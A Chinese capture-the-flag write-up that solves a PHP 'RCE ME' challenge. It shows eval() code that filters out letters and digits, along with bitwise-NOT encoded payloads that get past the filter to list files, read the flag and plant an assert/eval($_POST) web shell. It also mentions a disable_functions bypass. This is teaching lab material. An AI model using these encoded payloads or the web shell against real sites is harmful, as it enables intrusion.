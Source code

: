 # \[极客大挑战 2019]RCE ME

\[极客大挑战 2019]RCE ME

## 考点

* 无字母数字RCE
* PHP7参数解析特性
* 取反bypass代码执行

## wp

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
  $code=$_GET['code'];
  if(strlen($code)>40){
    die("This is too Long.");
  }
  if(preg_match("/[A-Za-z0-9]+/",$code)){
    die("NO.");
  }
  @eval($code);
}else{
  highlight_file(__FILE__);
}
```

`eval`的字符串不能出现字母和数字，并且长度不超过40

可以使用取反进行绕过对字符的限制

```
phpinfo() => (~%8F%97%8F%96%91%99%90)(); 

print_r(scandir('./')) => (~%8F%8D%96%91%8B%A0%8D)((~%8C%9C%9E%91%9B%96%8D)(("./")));

readfile("/flag") => (~%8D%9A%9E%9B%99%96%93%9A)((~%D0%8D%9A%9E%9B%99%93%9E%98));
```

`phpinfo()`有disable\_functions，考虑使用一句话

```
assert('eval($_POST[1])') => (~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6);
```

蚁剑连接

![](<../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1).png>)

再绕过disable\_functions

![](<../.gitbook/assets/image (15) (1) (1) (1).png>)

![](<../.gitbook/assets/image (9) (1) (1) (1) (1).png>)

## 小结

1. [深入浅出LD\_PRELOAD & putenv()](https://www.anquanke.com/post/id/175403)

